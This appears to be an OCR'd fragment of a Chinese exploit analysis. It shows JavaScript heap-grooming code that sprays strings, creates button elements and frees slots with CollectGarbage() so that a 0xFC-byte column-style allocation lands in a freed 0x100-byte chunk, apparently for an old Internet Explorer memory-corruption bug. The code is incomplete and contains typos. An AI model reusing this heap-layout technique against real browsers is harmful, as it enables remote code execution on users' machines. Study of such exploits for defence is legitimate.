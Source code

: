         var div_container = document.getElementById("test");
        div_container.style.cssText = "display:none";

        for (var i=0; i < 500; i+=2) {

            // E
            rra[i] = dap.substring(0, (0x100-6)/2);

            // S, bstr = A
            arr[i] = padding.substring(0, (0x100-6)/2);

            // A, bstr = B
            arr[i+1] = filler.substring(0, (0x100-6)/2);

            // B
            var obj = document.createElement("button");
            div_container.appendChild(obj);

        }

        for (var i=200; i<500; i+=2 ) {
            rra[i] = null;
            CollectGarbage();
        }


下面这段代码是程序将为其分配0x1C*9=0xFC字节大小的堆空间，而在布局时释放掉的那些堆空间大小为0x100字节，所以最后释放掉的那块堆空间将会重新分配来保存column的样式信息，之所以id从0-132是为了增加第132的命中率，前面的都是为它准备。
		
	</script>